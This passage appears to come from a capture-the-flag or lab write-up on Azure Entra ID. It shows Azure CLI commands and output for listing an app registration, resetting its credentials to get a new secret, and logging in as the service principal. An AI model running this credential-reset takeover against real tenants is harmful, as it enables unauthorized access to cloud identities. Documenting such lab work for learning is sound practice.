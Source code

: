 ## 4.3 Entra ID App?
```bash
az ad app list --display-name daiki-appspn --output table 
DisplayName    Id                                    AppId                                 CreatedDateTime
-------------  ------------------------------------  ------------------------------------  --------------------
daiki-appspn   ab743eea-102d-486f-8b76-b833180694c3  3626d80c-9f3b-48f9-a445-65a1ad9129af  2023-12-17T02:22:46Z

```

## 4.4 Credentials 

I was able to reset the password, but now what?
```bash
az ad app credential list --id ab743eea-102d-486f-8b76-b833180694c3              
[                               
  {                             
    "customKeyIdentifier": null,      
    "displayName": "Created in PowerShell",     
    "endDateTime": "2026-09-20T21:08:16.5881511Z",  
    "hint": "rmG",                       
    "keyId": "80a46a97-d145-4ffe-bd91-92ca98f17aff",       
    "secretText": null,                         
    "startDateTime": "2024-09-20T21:08:16.5881511Z"   
  },                                                                                                                                                              ...snip...



az ad app credential reset --id ab743eea-102d-486f-8b76-b833180694c3  

...snip
{
  "appId": "3626d80c-9f3b-48f9-a445-65a1ad9129af",
  "password": "<REDACTED>",
  "tenant": "2590ccef-687d-493b-ae8d-441cbab63a72"
}
```


## 4.5 Log in with az ad app credentials
I'm not sure what the issue is here. Once I logged in with the AppID, I was unable to perform further enumeration. I was really frustrated here. 

```bash
$ az login --service-principal -u 3626d80c-9f3b-48f9-a445-65a1ad9129af -p <REDACTED> --tenant 2590ccef-687d-493b-ae8d-441cbab63a72 --allow-no-subscriptions


[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "3626d80c-9f3b-48f9-a445-65a1ad9129af",
```
